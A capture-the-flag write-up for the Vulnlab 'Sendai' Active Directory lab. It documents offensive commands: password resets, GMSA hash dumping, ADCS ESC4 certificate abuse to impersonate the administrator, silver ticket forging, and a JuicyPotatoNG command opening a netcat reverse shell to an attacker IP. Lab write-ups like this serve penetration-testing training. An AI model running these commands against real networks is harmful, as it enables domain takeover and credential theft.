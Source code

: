 
# Vulnlab - Sendai

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus           
80/tcp    open  http          Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0
88/tcp open  kerberos-sec
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl            
| Issuer: commonName=dc.sendai.vl                                     
|_http-server-header: Microsoft-IIS/10.0                
| http-methods:                                
|_  Supported Methods: GET
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-04T16:24:01
| Not valid after:  2024-11-03T16:24:01
| MD5:   6198fc32527e478294e38fd5c6a2b81e
|_SHA-1: 73b4d1026b49e0cb9c0d633982377e74f32b7db3
|_ssl-date: 2024-05-05T16:28:56+00:00; -1m22s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
56740/tcp open  unknown
56744/tcp open  unknown
```

## PORT 80/443

<img src="https://i.imgur.com/2xyBd1B.png"/>
 
Running gobuster, we can find `/service`

<img src="https://i.imgur.com/41s7K0i.png"/>

However this endpoints shows that we don't have access to it

<img src="https://i.imgur.com/YgAmiLH.png"/>

## PORT 445

Enumerating smb shares with anonymous login, we'll see `config`, `sendai` and `Users` share, where config was not accessible, Users didn't anything but sendai had some interesting files

<img src="https://i.imgur.com/mQaCMNk.png"/>

<img src="https://i.imgur.com/OjZZNAR.png"/>

<img src="https://i.imgur.com/kSTgBfG.png"/>

The incident talked about users having weak passwords, all users will be prompted to change their password on logging in, the transfer directory had user's directories

<img src="https://i.imgur.com/Ob5kSkE.png"/>

## Resetting domain user's password

These users can also be enumerated through `lookupsid` by brute forcing sids

<img src="https://i.imgur.com/cNM7HDk.png"/>
On trying to login with null password, we'll get two users with password to be changed

<img src="https://i.imgur.com/bWjdAf4.png"/>
Password can be changed with `impacket-smbpasswd`

```bash
impacket-smbpasswd  sendai.vl/Thomas.Powell@dc.sendai.vl -newpass '$aduwu123'
```

<img src="https://i.imgur.com/2naixZH.png"/>

<img src="https://i.imgur.com/3NWYOCE.png"/>
From config share, we can grab `.sqlconfig` having credentials to MSSQL

<img src="https://i.imgur.com/iOaiZ2c.png"/>

<img src="https://i.imgur.com/oQ0cAH9.png"/>

But this service isn't exposed to us so moving on to enumerating the domain with bloodhound

```bash
python3 bloodhound.py -u sqlsvc -p password -d sendai.vl -c all -dc dc.sendai.vl -ns 10.10.104.41
```

<img src="https://i.imgur.com/JM5mhTv.png"/>

Thomas.Powell is a member of `Support` group has `GenericAll` on `ADMSVC` group which has `ReadGMSAPassword` on `MGTSVC$` account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account

<img src="https://i.imgur.com/BRPHbql.png"/>

## Abusing GenericAll and reading GMSA password

Through` bloodyAD` we can add thomas in ADMSVC group having genericall rights

```bash
 python3 bloodyAD.py  --host "10.10.104.41" -d 'sendai.vl' -u 'thomas.powell' -p '$aduwu123' add groupMember ADMSVC thomas.powell
```

<img src="https://i.imgur.com/cS1zoYy.png"/>

With gmsadumper script or with netexec we can dump the nthash of mgtsvc account

```bash
python3 gMSADumper.py -u 'thomas.powell' -p '$aduwu123' -d sendai.vl -l 10.10.104.41
```

<img src="https://i.imgur.com/ina1lCb.png"/>

This account can login on DC as it's part of `Remote Management` group

<img src="https://i.imgur.com/uwRvgKc.png"/>

Checking the privileges after logging in through evil-winrm, it doesn't have any privilege that we can abuse to get local admin

<img src="https://i.imgur.com/jxAX90R.png"/>

## Obtaining clifford's password

From the running process, we have helpdesk which doesn't normally run on a system

<img src="https://i.imgur.com/IxlngBF.png"/>

Enumerating the system with `PrivescCheck.ps1`

<img src="https://i.imgur.com/yO9Rckp.png"/>

This will list down the running processes from where we'll find the clifford.davey's creds

<img src="https://i.imgur.com/NPt3pB3.png|"/>

## Enumerating ADCS

This user belongs to `CA-Operators` group, so he likely will be able to enroll in a custom template, enumerating templates with `certipy`

<img src="https://i.imgur.com/Vgev4wX.png"/>

## Escalating privileges through ESC4

```bash
certipy find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.115.126 -stdout
```

This lists down a template `SendaiComputer` which has EKU set to `Client Authentication` that can be used to authenticate on the system and ca-operators group has Full control over this template which means we can edit this template and impersonate as the domain admin, which is known as ESC4 (access control) abuse

<img src="https://i.imgur.com/mQUF4HH.png"/>

<img src="https://i.imgur.com/A10lXkN.png"/>

With certipy, we can change the configuration of this template to allow domain users to enroll for this template and impersonate any user 

```bash
certipy template -u clifford.davey -target dc.sendai.vl -dc-ip 10.10.115.126 -template SendaiComputer
```

<img src="https://i.imgur.com/YycVHAi.png"/>
<img src="https://i.imgur.com/FEVEUWg.png"/>

```bash
certipy req -u 'clifford.davey' -ca 'sendai-DC-CA' -dc-ip 10.10.115.126 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator
```

<img src="https://i.imgur.com/pCSgIFn.png"/>

```bash
certipy auth -pfx ./administrator.pfx -domain sendai.vl
```

<img src="https://i.imgur.com/vgGRaVx.png"/>

## Escalating with SeImpersonate privilege

Another way of escalating privileges is through mssql, since mssql is running internally, having access on the machine we can port forward with`chisel`

```bash
chisel server -p 2222 --reverse
chisel.exe client 10.8.0.136:2222 R:socks
```
<img src="https://i.imgur.com/hSVXA3l.png"/>

But we'll get login denied for sqlsvc account

<img src="https://i.imgur.com/7dUxhoi.png"/>

With `ticketer,` forging a silver ticket for accessing MSSQL service as an administrator

```bash
ticketer.py -domain-sid S-1-5-21-3085872742-570972823-736764132 -domain sendai.vl -spn MSSQL/dc.sendai.vl -nthash hash Administrator
```

<img src="https://i.imgur.com/iOKxMa4.png"/>

<img src="https://i.imgur.com/ZlBgszU.png"/>

Enabling `xp_cmdshell` which will allow us to execute system commands as sqlsvc

<img src="https://i.imgur.com/DDGiMXV.png"/>

The difference here is that we'll have `SeImpersonate` privilege, which can abuse to get local admin

<img src="https://i.imgur.com/CvG90gg.png"/>

<img src="https://i.imgur.com/tdEDy5t.png"/>

Using `juicypotato-ng` to abuse the privilege and get a shell a SYSTEM

```bash
.\JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\sqlsvc\nc.exe 10.8.0.136 4444 -e cmd.exe"
```

<img src="https://i.imgur.com/22805js.png"/>

# References

- https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/
- https://github.com/itm4n/PrivescCheck
- https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services
